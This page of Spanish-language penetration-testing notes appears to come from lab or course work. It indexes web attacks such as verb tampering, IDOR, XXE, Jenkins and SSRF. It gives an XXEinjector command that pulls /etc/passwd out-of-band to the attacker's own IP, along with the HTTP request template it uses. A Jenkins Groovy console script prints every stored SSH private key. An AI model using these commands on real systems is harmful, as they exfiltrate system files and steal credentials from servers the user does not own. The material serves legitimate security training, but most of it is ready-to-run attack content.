 # Other Web Attacks (HTTP verb Tampering, IDOR & XXE)

- [HTTP verb tampering](./http-verb-tampering.md)
- [IDOR (Insecure Direct Object Reference)](./idor.md)
- [XXE (XML External Entity)](./xxe.md)
- [Attacking Jenkins](./attacking-jenkins.md)
- [SSRF](./ssrf.md)
- Podemos utilizar [XXEinjector](https://github.com/enjoiz/XXEinjector) para automatizar el proceso de inyección de XML externa.
- `ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter` Nos tenemos que guardar la petición HTTP de burp

```
POST /blind/submitDetails.php HTTP/1.1

Host: 10.129.197.101

Content-Length: 140

Accept-Language: en-US,en;q=0.9

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36

Content-Type: text/plain;charset=UTF-8

Accept: */*

Origin: http://10.129.197.101

Referer: http://10.129.197.101/

Accept-Encoding: gzip, deflate, br

Connection: keep-alive



<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```


## Jenkins script que busca clave SSH

```groovy
import com.cloudbees.plugins.credentials.CredentialsProvider
import com.cloudbees.plugins.credentials.common.StandardUsernameCredentials
import com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey
import hudson.model.*

// Buscar todas las credenciales en el sistema
def creds = CredentialsProvider.lookupCredentials(
    BasicSSHUserPrivateKey.class, 
    Jenkins.instance, 
    null, 
    null
)

// Iterar sobre las credenciales y mostrar las claves privadas
creds.each { cred ->
    println "ID: ${cred.id}"
    println "Description: ${cred.description}"
    println "Private Key: ${cred.privateKey}"
    println "----------------------------------------"
}
```